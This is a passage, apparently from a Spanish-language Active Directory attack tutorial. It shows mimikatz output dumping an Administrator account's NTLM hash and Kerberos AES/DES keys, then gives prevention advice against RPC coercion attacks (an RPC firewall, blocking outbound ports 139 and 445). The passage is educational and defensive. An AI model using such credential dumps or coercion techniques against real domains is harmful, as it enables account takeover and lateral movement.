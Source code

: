 ```powershell

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8

mimikatz # exitBye!

```

---

# **Prevención**

Windows no ofrece visibilidad granular y control sobre las llamadas RPC para permitir descubrir lo que se está utilizando y bloquear ciertas funciones. Por lo tanto, actualmente no existe una solución lista para prevenir este ataque. Sin embargo, hay dos enfoques generales diferentes para prevenir ataques de coaccionamiento:

1. Implementación de un firewall RPC de terceros, como el de[Cero redes](https://github.com/zeronetworks/rpcfirewall), y usarlo para bloquear funciones de RPC peligrosas. Esta herramienta también presenta un modo de auditoría, lo que permite el monitoreo y la obtención de visibilidad de si las interrupciones comerciales pueden ocurrir al usarla o no. Además, va un paso más allá al proporcionar la funcionalidad de bloquear las funciones de RPC si lo peligroso`OPNUM`asociado con coaccionamiento está presente en la solicitud. (Tenga en cuenta que en esta opción, para cada función RPC recientemente descubierta en el futuro, tendremos que modificar el archivo de configuración del firewall para incluirlo).
2. Controladores de dominio de bloque y otros servidores de infraestructura central desde la conexión a los puertos salientes`139`y`445`, `except`a máquinas que se requieren para AD (también para operaciones comerciales). Un ejemplo es que si bien bloqueamos el tráfico general de salida a los puertos 139 y 445, aún deberíamos permitirlo para controladores de dominio cruzado; De lo contrario, la replicación del dominio fallará. (El beneficio de esta solución es que también funcionará contra funciones de RPC vulnerables recién descubiertas u otros métodos de coercición).

---